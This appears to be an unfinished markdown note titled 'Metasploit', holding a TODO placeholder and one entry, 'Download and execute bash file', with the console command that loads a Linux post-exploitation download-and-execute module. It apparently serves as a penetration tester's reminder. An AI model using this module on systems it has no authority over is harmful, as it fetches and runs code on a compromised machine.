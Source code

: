 # Metasploit

TODO: Fill this info

Download and execute bash file

```
msf > use post/linux/manage/download_exec
```